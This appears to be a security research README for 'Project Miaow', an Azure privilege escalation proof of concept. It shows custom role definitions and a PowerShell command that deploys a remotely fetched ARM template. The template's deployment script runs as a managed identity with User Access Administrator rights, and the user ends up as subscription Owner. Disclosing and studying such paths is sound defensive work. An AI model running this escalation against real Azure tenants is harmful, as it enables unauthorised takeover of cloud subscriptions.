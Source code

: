 
![image](https://github.com/SecureHats/azure-misfit/assets/40334679/b9eb2782-dac0-4e1f-9252-cfaf346c3259)

# Project Miaow (Managed Identity Adds Owner)

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/256fe70f-02cc-469f-b264-bf942f156a47)


Mr. KFC Harland Sanders has `read` and `assign` permissions on the User-Assigned Managed Identity

### Custom Role User-Assigned Managed Identity User (custom role)  

> This role only gives permissions to `read` and `assign` a user-assigned managed identity to follow the least privilege
> 
```json
{
    "id": "/subscriptions/7570c6f7-9ca9-409b-aeaf-cb0f5ac1ad50/providers/Microsoft.Authorization/roleDefinitions/44e27d73-8dd7-4428-8bda-78406afb75c1",
    "properties": {
        "roleName": "Managed Identity Consumer",
        "description": "",
        "assignableScopes": [
            "/subscriptions/7570c6f7-9ca9-409b-aeaf-cb0f5ac1ad50"
        ],
        "permissions": [
            {
                "actions": [
                    "Microsoft.ManagedIdentity/userAssignedIdentities/*/read",
                    "Microsoft.ManagedIdentity/userAssignedIdentities/*/assign/action"
                ],
                "notActions": [],
                "dataActions": [],
                "notDataActions": []
            }
        ]
    }
}
```

The User Assigned Managed Identity `super-owner` has permission `User Access Administrator` on a specified scope, in this case the subscription level.

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/103fe92a-09c9-493b-9865-04fb3df40a94)


Mr. Harland has `Deployment Administrator` permissions on a resource group, and no further permissions within the subscription.

### Custom Role: Deployment Administrator (permissions to create deployment script)  

> This role has less permissions than a `contributor` to follow the least privilege principle.
> 
```json
{
  "roleName": "Deployment Administrator",
  "description": "Configure least privilege for the deployment principal in deployment script",
  "type": "customRole",
  "IsCustom": true,
  "permissions": [
    {
      "actions": [
        "Microsoft.Storage/storageAccounts/*",
        "Microsoft.ContainerInstance/containerGroups/*",
        "Microsoft.Resources/deployments/*",
        "Microsoft.Resources/deploymentScripts/*"
      ],
    }
  ],
  "assignableScopes": [
    "[subscription().id]"
  ]
}
```

Harland has no access to the Resource group where the user assigned managed identity resides nor any other resources groups and resources in Azure.

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/68a01789-dace-4a1a-9808-49c10d8f9bbe)

Interesting note: when requesting the permissions of Mr. Harland via PowerShell, only the `Resource Group` permissions are shown.
The custom role assignment to the `user-assigned` are *not* displayed.

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/016957aa-92db-4b5d-a881-3c372ecb9ed4)

>
>   

## Proof Of Concept

1. Mr. Harland logs in to Azure PowerShell to deploy the template.

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/c977cd5b-e21a-4e43-9d82-40b14a385fce)

2. Deploys an ARM template to the designated resource group that contains a deployment script

```PowerShell
New-AzResourceGroupDeployment `
  -name miaow `
  -ResourceGroupName kentucky-fried-veggies `
  -TemplateObject ((Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/SecureHats/azure-misfit/azurekid/priv-esc/poc/priv-esc-arm-template/azuredeploy.json').Content | ConvertFrom-Json -AsHashtable) `
  -managedIdentityName 'super-owner' `
  -managedIdentityResourceGroup "azure-misfit" `
  -principalId "301dfac7-8f45-48ac-9868-e1f0e875385c"
```

> NOTE: I am invoking the ARM template from GitHub so the repository does not need to be cloned to execute the deployment.

### Provided parameters
```yaml
name:                         The display name of the deployment to the Azure Resource Group
ResourceGroupName:            The name of the resource group which the user has access to
TemplateObject:               The ARM template to deploy to the target resource group.
managedIdentityName:          The name of the managed identity with role assignment permissions on a scope
managedIdentityResourceGroup: The resource group where the managed identity resides
principalId:                  The objectId of the user that is granted permissions via the deployment script
```

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/2e2ec2e8-e3a2-4cef-b474-9734a7f481c9)

During the deployment in the target resource group, a storage account, container instance and deploymentScript resource is created.  

The script in the DeploymentScript is executed in the context of the use assigned managed identity.  
After completion the DeploymentScript will show `Miaow`

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/403a0076-d2ab-4540-9715-f5c022f641c8)

# We are now `OWNER` of the subscription

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/e70829d3-afd9-4e7e-9cb0-ea68185576be)




